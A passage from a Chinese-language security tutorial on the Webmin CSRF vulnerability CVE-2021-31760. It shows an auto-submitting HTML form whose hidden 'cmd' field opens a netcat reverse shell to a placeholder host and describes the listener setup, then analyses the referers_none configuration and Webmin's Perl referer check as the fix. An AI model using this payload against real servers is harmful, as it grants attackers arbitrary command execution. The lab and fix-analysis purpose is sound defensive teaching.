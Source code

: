       &lt;input type="hidden" name="cmd" value="mkfifo /tmp/378; nc your_ip your_port 0&lt;/tmp/378 | /bin/sh &gt;/tmp/378 2&gt;&amp;1; rm /tmp/378" /&gt;
      &lt;input type="hidden" name="mode" value="0" /&gt;
      &lt;input type="hidden" name="user" value="root" /&gt;
      &lt;input type="hidden" name="input" value="" /&gt;
      &lt;input type="hidden" name="undefined" value="" /&gt;
      &lt;input type="submit" value="Submit request" /&gt;
    &lt;/form&gt;
    &lt;script&gt;
      document.forms[0].submit();
    &lt;/script&gt;
  &lt;/body&gt;

&lt;/html&gt;
</code></pre><p><strong>其中主要参数是cmd字段，其含义是：</strong></p><ol>
<li>创建一个命名管道378；</li>
<li>Webmin作为客户端使用nc连接黑客控制的服务端，接收命令，并通过匿名管道将命令重定向到bash；</li>
<li>bash执行服务端发过来的命令，将输出重定向到命名管道378，并通过命名管道378将输出重定向到nc发送给服务端。</li>
</ol><p>这一条命令实际包含了两条管道，一条匿名管道，一条命名管道，并使其各司其职。它先后将html文件中的your_mituan_app_address、your_ip、your_port替换为谜团启动的应用URL、你的服务器地址、你的服务器IP，即可开始CSRF攻击。</p><p>让我们看看这次攻击经历了哪些流程：首先我们以管理员身份登录Webmin界面，在自己的服务器上启动nc进行监听：nc -l -p  1337，然后使用浏览器直接打开我们创建的HTML页面，到这里我们的攻击就已完成，服务器上的nc已经接入Webmin服务器的bash，可以执行任意命令。</p><h4>漏洞分析</h4><p>既然已经成功利用了该漏洞，接下来我们就要分析这一类漏洞该如何修复。<strong>最简单的方式就是校验这次访问的来源。</strong>事实上，Webmin已经做了这种防御。你肯定会有疑问，为什么做了防御仍然会出现CVE-2021-31760漏洞呢？其实这是由于一个配置项引起的，在构建Webmin平台的过程中，我们对config文件进行了修改：</p><pre><code class="language-plain">/etc/webmin/config -&gt; referers_none=0
</code></pre><p>在官方的说明中，该项就是在判断不同来源的request能否生效，你可以通过如下命令修改配置并重启Webmin服务：</p><pre><code class="language-plain">// 将referers_none=0修改为referers_none=1
vim /etc/webmin/config
// 重启webmin服务
service webmin restart
</code></pre><p>再次尝试就会发现该漏洞已经消失了，这也是我在追踪这个漏洞时惊讶的点。也许正是这个原因，截至写稿时，Webmin已经在存在漏洞的版本发布了至少5次更新，但是却并没有修复该漏洞。</p><p>到这里你肯定更好奇了，既然Webmin有相关的保护措施，那CVE-2021-31760这个漏洞是否真实存在呢？</p><p>这是个好问题，我们继续来深挖一下：</p><p>首先，<strong>该配置项是如何生效的？</strong></p><p>通过对源码的追踪分析，我们可以发现存在如下函数调用链：</p><pre><code class="language-bash"># run.cgi
# line 5
require './proc-lib.pl';
&amp;ReadParse();
$access{'run'} || &amp;error($text{'run_ecannot'});
...
# proc-lib.pl
# line 9
&amp;init_config();
...
# web-lib-funcs.pl
# line 5142
    if (!$gconfig{'referers_none'}) {
        # Known referers are allowed
        $trust = 1;
        }
    elsif ($trustvar == 2) {
        # Module wants to trust unknown referers
        $trust = 1;
        }
    else {